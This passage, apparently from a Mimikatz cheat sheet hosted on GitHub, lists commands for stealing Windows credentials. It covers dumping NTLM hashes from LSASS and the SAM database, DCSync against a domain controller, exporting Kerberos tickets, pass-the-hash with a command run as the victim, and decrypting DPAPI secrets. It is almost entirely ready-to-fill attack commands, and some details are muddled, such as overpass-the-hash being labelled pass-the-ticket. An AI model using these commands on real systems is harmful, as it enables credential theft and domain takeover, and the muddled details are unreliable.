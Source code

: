 - **Dump NTLM Hashes**: Included in the standard `logonpasswords` dump.
  ```bash
  sekurlsa::logonpasswords
  ```
- **SAM Dump**: Dumps NTLM hashes from the Security Account Manager (SAM) database.
  ```bash
  lsadump::sam
  ```
- **DC Sync Attack**: Emulates a Domain Controller (DC) to dump NTLM hash of a specified user.
  ```bash
  lsadump::dcsync /user:<username>
  ```

#### Extracting Kerberos Tickets

- **List Kerberos Tickets**: Lists all Kerberos tickets from memory.
  ```bash
  sekurlsa::tickets
  ```
- **Dump Kerberos Tickets**: Exports all Kerberos tickets to a file.
  ```bash
  sekurlsa::tickets /export
  ```
- **Overpass-the-Hash (Pass-the-Ticket)**: Uses a Kerberos ticket to authenticate as a user without needing their plaintext password.
  ```bash
  sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /rc4:<hash> /aes128:<key> /aes256:<key> /run:<command>
  ```

#### Extracting DPAPI Secrets

- **Dump DPAPI Master Keys**: Decrypts a DPAPI master key using the user's password.
  ```bash
  dpapi::masterkey /in:<encrypted_masterkey> /sid:<SID> /password:<user_password>
  ```
- **Dump DPAPI Credentials**: Decrypts DPAPI-protected credentials.
  ```bash
  dpapi::cred /in:<encrypted_credential>
  ```
- **Dump DPAPI Secrets**: Decrypts generic DPAPI-protected data blobs.
  ```bash
  dpapi::blob /in:<encrypted_blob>
  ```

## Credential Extracting Techniques

#### Extracting From LSASS Process

1. **Dump All Credentials from LSASS**: Extracts all available credentials (plaintext passwords, hashes, Kerberos tickets) from the LSASS process.
    ```bash
    sekurlsa::logonpasswords
    ```
2. **Dump Only NTLM Hashes**: Filters the LSASS output to display only NTLM hashes.
    ```bash
    sekurlsa::logonpasswords | findstr /i ntlm
    ```
3. **Dump Credentials of a Specific User**: Limits the credential extraction to a specific user.
    ```bash
    sekurlsa::logonpasswords -user:<username>
    ```

